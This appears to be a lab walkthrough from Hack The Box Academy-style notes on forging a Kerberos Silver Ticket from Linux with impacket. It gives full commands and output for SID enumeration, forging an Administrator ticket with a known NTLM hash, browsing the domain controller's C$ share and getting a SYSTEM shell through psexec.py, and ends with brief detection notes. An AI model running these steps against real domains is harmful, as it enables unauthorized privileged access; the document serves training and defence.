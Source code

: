 # Silver Ticket from Linux


## Linux 


On Linux, **impacket** can be used to craft a **Silver Ticket**. The tool [lookupsid.py](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py) will retrieve the domain's, groups', and users' SID. 



Authenticate to 10.129.205.35 with user "htb-student" and password "HTB_@cademy_stdnt!"

DC01$'s NTLM hash is 542780725df68d3456a0672f59001987


## Retrieve the Domain's SID


	> lookupsid.py inlanefreight.local/htb-student@dc01.inlanefreight.local -domain-sids
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs    
		                                                                                                    
	Password:                                                                                                
	[*] Brute forcing SIDs at dc01.inlanefreight.local                                                       
	[*] StringBinding ncacn_np:dc01.inlanefreight.local[\pipe\lsarpc]                                        
	[*] Domain SID is: S-1-5-21-1870146311-1183348186-593267556                                              
	498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)                                
	500: INLANEFREIGHT\Administrator (SidTypeUser)                                                           
	501: INLANEFREIGHT\Guest (SidTypeUser)                                                                   
	502: INLANEFREIGHT\krbtgt (SidTypeUser)                                                                  
	512: INLANEFREIGHT\Domain Admins (SidTypeGroup)                                                          
	513: INLANEFREIGHT\Domain Users (SidTypeGroup)                                                           
	514: INLANEFREIGHT\Domain Guests (SidTypeGroup)                                                          
	515: INLANEFREIGHT\Domain Computers (SidTypeGroup)                                                       
	516: INLANEFREIGHT\Domain Controllers (SidTypeGroup)                                                     
	517: INLANEFREIGHT\Cert Publishers (SidTypeAlias)                                                        
	518: INLANEFREIGHT\Schema Admins (SidTypeGroup)                                                          
	519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup) 
	520: INLANEFREIGHT\Group Policy Creator Owners (SidTypeGroup) 
	521: INLANEFREIGHT\Read-only Domain Controllers (SidTypeGroup)                                           
	522: INLANEFREIGHT\Cloneable Domain Controllers (SidTypeGroup)                                           
	525: INLANEFREIGHT\Protected Users (SidTypeGroup)                                                        
	526: INLANEFREIGHT\Key Admins (SidTypeGroup)                                                             
	527: INLANEFREIGHT\Enterprise Key Admins (SidTypeGroup)                                                  
	553: INLANEFREIGHT\RAS and IAS Servers (SidTypeAlias)                                                    
	571: INLANEFREIGHT\Allowed RODC Password Replication Group (SidTypeAlias)                                
	572: INLANEFREIGHT\Denied RODC Password Replication Group (SidTypeAlias)                                 
	1002: INLANEFREIGHT\DC01$ (SidTypeUser)             
	1103: INLANEFREIGHT\DnsAdmins (SidTypeAlias)                                                             
	1104: INLANEFREIGHT\DnsUpdateProxy (SidTypeGroup)                                                        
	1105: INLANEFREIGHT\derek.walker (SidTypeUser)                                                           
	1106: INLANEFREIGHT\carole.holmes (SidTypeUser)                                                          
	1107: INLANEFREIGHT\callum.dixon (SidTypeUser)                                                           
	1108: INLANEFREIGHT\beth.richards (SidTypeUser)                                                          
	1109: INLANEFREIGHT\amber.smith (SidTypeUser)                                                            
	1110: INLANEFREIGHT\jenna.smith (SidTypeUser)                                                            
	1111: INLANEFREIGHT\carole.rose (SidTypeUser)                                                            
	1112: INLANEFREIGHT\sqldev (SidTypeUser)            
	1113: INLANEFREIGHT\sqlprod (SidTypeUser)           
	1114: INLANEFREIGHT\sqlqa (SidTypeUser)             
	1115: INLANEFREIGHT\sql-test (SidTypeUser)          
	1116: INLANEFREIGHT\adam.jones (SidTypeUser)                                                             
	1117: INLANEFREIGHT\jacob.kelly (SidTypeUser)                                                            
	1118: INLANEFREIGHT\DMZ01$ (SidTypeUser) 
	1119: INLANEFREIGHT\SQL01$ (SidTypeUser)            
	1120: INLANEFREIGHT\WS01$ (SidTypeUser)             
	1121: INLANEFREIGHT\FILER01$ (SidTypeUser)          
	1122: INLANEFREIGHT\daniel.whitehead (SidTypeUser)                                                       
	1123: INLANEFREIGHT\annette.jackson (SidTypeUser)                                                        
	1124: INLANEFREIGHT\sandra.murphy (SidTypeUser)                                                          
	1125: INLANEFREIGHT\debra.rogers (SidTypeUser)                                                           
	1126: INLANEFREIGHT\htb-student (SidTypeUser)                                                            
	1127: INLANEFREIGHT\brian.willis (SidTypeUser)                                                           
	2103: INLANEFREIGHT\matilda.kens (SidTypeUser)
	
![lookupsids](/Ticket-Abuse/Silver-Ticket-w-Linux/images/sids.png) 
![lookupsids](/Ticket-Abuse/Silver-Ticket-w-Linux/images/sids-2.png) 
![lookupsids](/Ticket-Abuse/Silver-Ticket-w-Linux/images/sids-3.png) 


Once we have the domain's SID, we can craft a Silver Ticket using [ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py) 



## Create a Silver Ticket with ticketer.py 


	ticketer.py -nthash 542780725df68d3456a0672f59001987 -domain-sid S-1-5-21-1870146311-1183348186-593267556 -domain inlanefreight.local -spn cifs/dc01.inlanefreight.local Administrator
		
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs

	[*] Creating basic skeleton ticket and PAC Infos
	[*] Customizing ticket for inlanefreight.local/Administrator
	[*]     PAC_LOGON_INFO
	[*]     PAC_CLIENT_INFO_TYPE
	[*]     EncTicketPart
	[*]     EncTGSRepPart
	[*] Signing/Encrypting final ticket
	[*]     PAC_SERVER_CHECKSUM
	[*]     PAC_PRIVSVR_CHECKSUM
	[*]     EncTicketPart
	[*]     EncTGSRepPart
	[*] Saving ticket in Administrator.ccache



The ticket has been forged and saved in the current **Administrator.ccache** directory. We can now use this ticket by importing it in the **KRB5CCNAME** environment variable and using any impacket tool with **-k parameter**. 

	> export KRB5CCNAME=Administrator.ccache 
	

[Ticketer.py](/Ticket-Abuse/Silver-Ticket-w-Linux/images/Ticketer.png) 



## Importing the Ticket and using it 



[smbclient.py](/Ticket-Abuse/Silver-Ticket-w-Linux/images/exploit.png) 




	smbclient.py -k -no-pass dc01.inlanefreight.local
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by TheP[11/362]
		                                                                                                    
	Type help for list of commands                                                                           
	# shares                                                                                                 
	ADMIN$                                                                                                   
	C$                                                                                                       
	IPC$                                                                                                     
	NETLOGON
	Shares
	SYSVOL                                                                                                   
	# use C$                                                                                                 
	# ls
	drw-rw-rw-          0  Fri Oct 14 10:46:09 2022 $Recycle.Bin
	drw-rw-rw-          0  Mon Apr  3 15:13:28 2023 carole.holmes
	drw-rw-rw-          0  Wed Oct  6 09:26:26 2021 Config.Msi
	drw-rw-rw-          0  Wed Oct  6 15:38:04 2021 Documents and Settings
	-rw-rw-rw-         37  Mon Apr  3 15:12:37 2023 flag.txt
	-rw-rw-rw-  738197504  Mon Jan 15 10:20:11 2024 pagefile.sys
	drw-rw-rw-          0  Fri Feb 25 10:20:53 2022 PerfLogs
	drw-rw-rw-          0  Wed Oct  6 15:50:50 2021 Program Files
	drw-rw-rw-          0  Wed Oct  6 16:36:06 2021 Program Files (x86)
	drw-rw-rw-          0  Fri Oct 14 10:46:03 2022 ProgramData
	drw-rw-rw-          0  Fri Oct 14 06:43:03 2022 Recovery
	drw-rw-rw-          0  Thu Mar 30 11:11:55 2023 Shares



And since the SPN is in clear text and can be modified on the fly, impacket can do it for us and get us a remote shell on the compromised system. 



## Using PSExec to get a Remote Shell 


	> psexec.py -k -no-pass dc01.inlanefreight.local
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs

	[*] Requesting shares on dc01.inlanefreight.local.....
	[*] Found writable share ADMIN$
	[*] Uploading file yzDkorck.exe
	[*] Opening SVCManager on dc01.inlanefreight.local.....
	[*] Creating service ocYS on dc01.inlanefreight.local.....
	[*] Starting service ocYS.....
	[!] Press help for extra shell commands
	Microsoft Windows [Version 10.0.17763.2628]
	(c) 2018 Microsoft Corporation. All rights reserved.

	C:\Windows\system32> whoami
	nt authority\system

	C:\Windows\system32> 


![psexec.py](/Ticket-Abuse/Silver-Ticket-w-Linux/images/psexec.png) 



## Detection


Silver Tickets are more limited when compared to Golden Tickets because their scope is only for the service that is being targeted on a specific host. However, they can be utilized to remain stealthier. Silver Tickets can be used for persistence when used to access computer-hosted services. Since computer account password rotation may be disabled, and AD does not prevent computer accounts from accessing resources, this type of Silver Ticket could likely be used for a very long time.

Silver Tickets forged with Mimikatz can be detected in a few ways.

1. **The account DOMAIN field is blank**. 
2. **The account DOMAIN field contains DOMAIN FQDN instead of just domain**. 


